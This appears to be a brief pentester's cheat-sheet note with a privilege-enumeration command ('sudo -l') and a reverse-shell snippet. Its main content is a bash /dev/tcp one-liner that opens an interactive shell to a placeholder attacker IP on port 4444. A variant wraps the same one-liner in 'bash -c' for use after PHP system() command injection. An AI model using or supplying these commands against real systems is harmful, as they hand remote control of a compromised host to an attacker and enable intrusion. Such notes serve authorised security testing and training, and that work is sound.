 **Tags:** #type/tool
**Link:** 
**Purpose:** 

---
# Info

# Usage
`sudo -l` list sudo privileges of the current user
# Snippets
#### Simple Reverse Shell
`bash -i >& /dev/tcp/192.168.x.x/4444 0>&1`
If you create shell using e.g. a php system() call it might happen, that `sh` is used per default - in that case, first start a full bash process and then start the reverse shell inside that bash process: `bash -c "bash -i >& /dev/tcp/192.168.x.x/4444 0>&1"`
